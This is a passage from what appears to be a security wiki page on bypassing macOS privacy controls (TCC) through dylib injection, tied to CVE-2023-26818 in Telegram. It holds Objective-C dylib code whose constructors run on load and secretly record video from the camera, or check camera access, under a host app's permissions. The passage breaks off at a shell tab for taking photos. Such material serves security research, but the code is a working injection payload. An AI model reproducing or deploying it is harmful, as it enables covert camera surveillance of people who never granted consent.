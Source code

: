 ```objectivec
@end
__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
    freopen("/tmp/logs.txt", "a", stderr);
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];
    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];
    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Check" %}
Check if the program has access to the camera.

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to camera granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to camera denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    freopen("/tmp/logs.txt", "a", stderr);
    [CameraAccessChecker hasCameraAccess];
    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Take a photo with the camera
